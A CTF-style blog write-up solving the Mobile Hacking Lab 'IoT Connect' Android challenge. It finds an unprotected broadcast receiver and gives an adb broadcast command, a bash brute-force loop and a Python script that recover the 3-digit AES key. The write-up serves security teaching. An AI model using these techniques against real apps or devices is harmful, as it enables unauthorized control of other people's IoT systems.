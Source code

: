 ```yaml
---
title:  "Mobile Hacking IoT Connect Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [IoT Connect](https://www.mobilehackinglab.com/course/lab-iot-connect) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a login page with login and signup buttons. We can create a new account with name and password. After logging in,  we can control some of ıot devices status(on/off) but we can not control AC, speakers and TV. Our account is a guest account and guests have limited permissions on devices.

Also there is a master switch button. This button can start all devices but guests can not use this button and its protected with 3 digit pin. Lets start our analyze with manifest file. 

![](/assets/images_mhl_iotconnect/manifest.png)

When we examine the manifest file, we see that a broadcast receiver named MasterReceiver defined without any permission protection. It means that everyone can trigger this receiver with proper arguments. Sample broadcast:  
```bash
adb shell am  broadcast -a MASTER_ON
```
I just searched name of this broadcast receiver and find the implementation in CommunicationManager class. Also you can search "registerReceiver" string to find broadcast receivers registers.

![](/assets/images_mhl_iotconnect/broadcastDefinition.png)
 
As seen in screenshot, we need to send broadcast with `"MASTER_ON"` action and a key as extra integer. This key sended to `check_key` function. If our key is correct, `turnOnAllDevices` will be called and we can turn on all devices without master account. Lets analyse check_key function. 

### check_key Function

![](/assets/images_mhl_iotconnect/check_key.png)

In this function, our key used to decrypt a base64 string and after decryption, expected result is `"master_on"` string. During key generation, our 3 digit key copied to another array. This array have 16 bytes and we have 13 null bytes after our key.
```
Algorith: AES ECB
Encrypted string: "OSnaALIWUkpOziVAMycaZQ=="
Key: our_key + 13*'\x00'

Expected result: "master_on"

```
With this information we can bruteforce key to find correct pin. For this attack you can use frida for following aes decryption processes and small bash script for sending broadcast with key. I used frida script from frida codeshare: https://codeshare.frida.re/@dzonerzy/aesinfo/

Bash script:
```bash
#!/bin/bash

for ((i=1; i<=999; i++)); do
    key=$(printf "%03d" $i) 
    echo $key
    adb shell am broadcast -a MASTER_ON --ei key $key
 
done

```
And PoC video:

[![](https://img.youtube.com/vi/GjnLXUowas4/0.jpg)](https://youtu.be/GjnLXUowas4)

Also I wroted small python script(with help of ch*tGPT). We can bruteforce key with this scirpt. Here is my code:
```py
from Crypto.Cipher import AES
import base64

encrypted_text = b'OSnaALIWUkpOziVAMycaZQ=='


def decrypt_with_key(encrypted_text, key):
    cipher = AES.new(key, AES.MODE_ECB)
    decrypted_text = cipher.decrypt(base64.b64decode(encrypted_text))
    return decrypted_text.decode('utf-8').strip()


def brute_force_decrypt(encrypted_text):
    for i in range(1000):
        key_prefix = str(i).zfill(3)
        key_suffix = b'\x00' * 13
        key = key_prefix.encode('utf-8') + key_suffix     
        #sh4d0wless
        try:
            decrypted_text_str = decrypt_with_key(encrypted_text, key)
            if "master_on" in decrypted_text_str:
                print("Key found: " + key.decode("utf-8") +" "+ decrypted_text_str)
                
        except UnicodeDecodeError:
            continue

brute_force_decrypt(encrypted_text)

```

```bash
sh4d0wless@paradise:~/Desktop$ python3 testoo.py 
Key found: 345 master_on
sh4d0wless@paradise:~/Desktop$ 

```
Our key is "345". We can turn on all devices with this key🎉🎉🎉:

[![](https://img.youtube.com/vi/qpdPvkfByc4/0.jpg)](https://youtu.be/qpdPvkfByc4)

Thanks for reading! See you in next writeups 👋🏻👋🏻
